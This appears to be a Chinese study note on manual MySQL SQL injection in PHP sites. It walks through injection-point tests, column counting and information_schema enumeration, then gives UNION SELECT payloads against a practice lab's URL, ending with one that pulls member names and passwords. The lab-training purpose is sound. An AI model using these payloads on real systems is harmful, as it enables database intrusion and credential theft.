 **1.PHP（MYSQL）**

  条件：参数传递，执行恶意sql语句，实现自定义攻击。

  产生原理：存在可控变量，带入数据库查询，过滤不完全

> www.huazige.com/index.php?id=2
>
> www.huazige.com/?id=4
>
> www.huazige.com/?id=8&x=1
>
> www.huazige.com/index.php
>
> 问：哪几个可能存在注入的网站？
>
> 均是 ，其存在变量，最后一个可能为POST类型

选定注入参数，进行sql语句注入0

www.xxx.com/?id=2&page=5,若存在注入参数为id，则为id=2 and 1=1这样，反之为page=5 and 1=1,在使用sqlmap等工具时要注意；不然就是乱搞。

**2.SQL注入思路：**

​    网站域名/IP --->数据库名 --->表名 ---> 字段 ---> 数据

如何判断注入点？

老办法： and 1=1 ----->页面正常   

​				and 1=2 ------页面错误    可能存在注入点

新方法：select * from users where id =1 limit 1,2  包含一定的数据逻辑关系，And or xor 。

记住要判定写的测试语句是否带入数据库查询，查看返回的页面/结果！

**3.手工注入流程：**

拿钱都买不到的小秘密：

​    在MYSQL5.0以上版本中，mysql存在一个自带数据库名为information_achema,它是一个存储记录；1所有数据库名，字段，数据的数据库，我们可以通过它来查询其他数据库的相关信息，这叫有依据的查询。

  数据库中符号"."代表下一级，比如edu.user表示edu数据库下的user表名

1#判断注入

2# 猜解列名（字段数）      order by x  判断错误与正常的x值

3#根据报错进行猜解

4#信息搜集

  数据库名：database()								 mozhe_Discuz_StormGroup 

  数据库版本：version()                                5.7.22-0ubuntu0.16.04.1 

  操作系统信息：@@version_compile_os		 Linux 

  数据库用户：user()  										 root@localhost 

联合查询查看数据库名：

> 由于该数据库的版本高于5.0，所以根据数据库 information_schema进行相关的程序；
>
> 靶场：墨者学院
>
> http://219.153.49.228:45866/new_list.php?%20id=666 union select 1,schema_name,3,4 from information_schema.schemata  limit 0,1  查询数据库，读取0，1的数据

![1619238589230](C:\Users\MCY\AppData\Roaming\Typora\typora-user-images\1619238589230.png)

>  http://219.153.49.228:45866/new_list.php?%20id=666 union select 1,schema_name,3,4 from information_schema.schemata limit 1,1  查询数据库，读取1，1的数据

![1619238849251](C:\Users\MCY\AppData\Roaming\Typora\typora-user-images\1619238849251.png)

>  http://219.153.49.228:45866/new_list.php?%20id=666 union select 1,schema_name,3,4 from information_schema.schemata limit 1,1
>
> 其中修改 limit x,y 的值，可以得到不同的数据库名称
>
> http://219.153.49.228:45866/new_list.php?%20id=666 union select 1,table_name,3,4 from information_schema.tables where table_schema='mozhe_Discuz_StormGroup' limit 0,1
>
> 查询数据库mozhe_Discuz_StormGroup的表名

 ![1619246390447](C:\Users\MCY\AppData\Roaming\Typora\typora-user-images\1619246390447.png)

同理，可以根据上面的语句，查询其他的表的字段，查出为‘notice’

既然表名和字段名已经查到了，就要查询字段里的数据了；

> http://219.153.49.228:45866/new_list.php?%20id=666 union select 1,column_type,column_name from information_schema.columns where table_name='StormGroup_member' limit 0,1
>
> http://219.153.49.228:45866/new_list.php?%20id=666  union select 1,concat(name,’-’,password,’-’,status),3,4 from mozhe_Discuz_StormGroup.StormGroup_member limit 0,1

 ![img](https://img-blog.csdnimg.cn/20190116142213955.png) 

>  http://219.153.49.228:45866/new_list.php?%20id=666  union select 1,concat(name,’-’,password,’-’,status),3,4 from mozhe_Discuz_StormGroup.StormGroup_member limit 1,1 

 ![img](https://img-blog.csdnimg.cn/20190116142237703.png) 

于是就可以拿到key了。除此之外我们可以用其他工具进行扫描。